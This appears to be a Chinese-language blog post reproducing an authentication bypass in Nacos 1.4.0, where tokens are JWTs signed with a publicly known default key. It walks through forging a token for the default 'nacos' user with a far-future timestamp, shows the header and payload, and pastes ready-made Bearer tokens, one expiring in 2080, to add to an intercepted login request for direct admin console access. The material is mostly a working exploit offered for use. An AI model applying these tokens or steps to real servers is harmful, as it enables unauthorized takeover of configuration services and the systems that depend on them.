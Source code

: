 Priority: u=0  
  
由于返回的accessToken只是对账号进行加密得到的.  
  
而且nacos加密用户accessToken使用的jwt默认密钥加密，也就是只要知道nacos的用户，任何人都能通过此密钥加密用户得到对应用户的accessToken.  
  
nacos存在默认用户nacos，所以我们可以尝试获取此默认用户的nacos。  
  
漏洞复现  
  
测试版本：nacos1.4.0  
  
1. 生成时间戳比现在时间晚就行，比如现在时间为2024.9.3，则修改为2024.9.4或者更晚的时间  
  
https://tool.lu/timestamp/  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia26lNcnUx5cicXWCSn86eQ7bNaJtNRXIG8rUru43bmNrJ8kNLmeh2rTQ/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
我直接生成到2080了直接用我的就行  
  
3481367106  
  
2. 生成key。  
  
https://jwt.io/  
  
复制默认的key，填写如下所示  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaHzMkMY0wafXEmSaz9Iu2ErmshYpib68xb0wm6MYoydicJh6ibcwfkxicQQ/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
  
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImlhdCI6MTc0NTgzNTYwOH0.gk9tFDRWDozKj-fsLAXSxnpojBklSaOVPNbUneqTSpw  
  
  
{  
  
"sub": "nacos",  
  
"iat": 1745835608  
  
}  
  
{  
  
"alg": "HS256",  
  
"typ": "JWT"  
  
}  
  
  
带上token访问用户列表即可绕过403  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaotYQI2NyQRgLbfLoezYMLZqKjvNUllzhIVrEbV5hW8Xy2F7OGBLKXg/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
**直接登录到后台**  
：  
  
登陆界面输入任意账户密码 ，点击登录。抓包，添加请求头,我这个还能用。  
  
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MzQ4MTM1NzA1NX0.92Mo2gkDFuPnUaD2v63SQl1IWtObfBxDTWgIhqvteM8  
  